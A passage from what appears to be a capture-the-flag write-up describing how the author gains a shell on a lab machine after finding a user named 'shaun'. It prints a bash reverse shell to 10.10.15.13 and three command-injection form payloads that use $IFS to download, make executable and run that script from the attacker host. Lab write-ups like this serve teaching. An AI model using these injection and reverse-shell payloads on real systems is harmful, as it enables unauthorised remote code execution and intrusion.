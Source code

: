  I found a username `shaun` using `tail -n2`.  Next, I tried to see if I could send my SSH key to `shaun`'s`authorized_keys` file but it didn't work.  After that I decided to try to get a reverse shell by sending a bash script and then executing it.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.13/8091 0>&1
```

my shell script which simply contained a bash reverse shell

```text
title=Passwd+Extract&content=http://10.10.15.13:8081/$(curl$IFS'http://10.10.15.13:8081/shell'$IFS'-o'$IFS'/dev/shm/shell')&submit=Post

title=Passwd+Extract&content=http://10.10.15.13:8081/$(chmod$IFS'+x'$IFS'/dev/shm/shell')&submit=Post

title=Passwd+Extract&content=http%3a//10.10.15.13%3a8081/$(bash$IFS'/dev/shm/shell')&submit=Post
```

The three commands I sent through burp traffic: 

![](/assets/img/5-burp-shell.png)

sending the file using curl, 

![](/assets/img/5-shell.png)
